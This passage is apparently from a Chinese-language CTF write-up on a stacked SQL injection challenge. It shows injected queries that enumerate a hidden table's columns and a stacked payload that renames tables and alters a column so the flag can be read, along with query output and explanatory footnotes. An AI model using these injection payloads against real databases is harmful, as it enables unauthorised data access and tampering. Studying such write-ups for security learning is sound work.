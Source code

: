    ```javascript
     [1]=>
     string(11) "varchar(20)"
     [2]=>
     string(2) "NO"
     [3]=>
     string(0) ""
     [4]=>
     NULL
     [5]=>
     string(0) ""
   }
   
   ```

   输入

   ```sql
   1'; show columns from `1919810931114514`; #
   ```

    字段使用的是反勾号（ ` ）

   ```javascript
   array(6) {
     [0]=>
     string(4) "flag"
     [1]=>
     string(12) "varchar(100)"
     [2]=>
     string(2) "NO"
     [3]=>
     string(0) ""
     [4]=>
     NULL
     [5]=>
     string(0) ""
   }
   ```

   可以看到`1919810931114514`中有我们想要的`flag`字段

   

   **==突破点==**

    

   **他既然没过滤 alert 和 rename，那么我们是不是可以把表改个名字，再给列改个名字呢。
    先把 words 改名为 words1，再把这个数字表改名为 words，然后把新的 words 里的 flag 列改为 id （避免一开始无法查询）。**

   ```sql
   1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;show columns from words;#
   ```

   运行完这个 表的结构就改好了 下一步就是永真查询 (参考文章中 他这一步写错了)


[^1]: 此处 # 作用是注释 忽略 # 之后的语句 [参考资料](https://blog.csdn.net/github_36032947/article/details/78442189) 
[^2]: 这句话的逻辑 不是特别清楚 网上搜了很多 但是都是这一道题目的 没有讲具体的逻辑 目前推断是 能堆叠 防止你乱搞 所以才禁止了这些关键词 否则直接禁止了堆叠注入 就根本不用禁止了 而且此时是联合注入
[^3]: ../ 是跳转到上级目录
